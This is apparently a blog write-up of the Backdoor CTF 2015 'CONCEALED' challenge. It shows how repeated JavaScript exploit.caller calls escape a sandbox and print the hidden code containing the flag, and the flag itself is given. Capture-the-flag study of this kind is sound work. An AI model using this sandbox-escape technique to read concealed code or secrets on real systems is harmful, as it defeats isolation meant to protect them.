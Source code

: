 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - CONCEALED Writeup"
date: 2015-04-03 02:33:31 +0430
comments: false
categories: ctf backdoor exploit javascript sandbox
---
```


**Backdoor 2015 CONCEALED Writeup**  
**Point = 150**  
**Category = Exploit**  

> All paths have been concealed. Get the hidden flag: nc hack.bckdr.in 8005. Submit sha-256 of the flag

```
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions 
Rest everything is sandboxed, don't be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code. 
Get the flag :D!

home@jail:$ 

```

First of all as banner says we should use all our payload as a function like :
<!--more-->
```
home@jail:$ function exploit() { return "GeeksSpeak"; }
GeeksSpeak
home@jail:$ 
```

After some diging into the the challenge, trying to break the jail and so on, reading banner carefully indicates that the flag is in the code so i should read codes but how?

In javascript we can use arguments.caller to see which function calls our current function so i made up an example and tested it:

```
home@jail:$ function exploit() { return exploit.caller.toString(); }
function () {return (function exploit() { return exploit.caller.toString(); })()}
home@jail:$ function exploit() { return (exploit.caller).caller.toString(); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
home@jail:$ 

```

this proved my idea, so i used caller repeatedly and finally got the flag as bellow:

```
home@jail:$ function exploit() { return ((((((((exploit.caller).caller).caller).caller).caller).caller).caller).caller).caller.toString(); }
function (err, line) {

    // flag : 50_y0u_f1n4lly_f0und_17

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) 
      [..stripped..]
```

and sha256 of the `50_y0u_f1n4lly_f0und_17` gives us another 150pts.

HAMIDx9

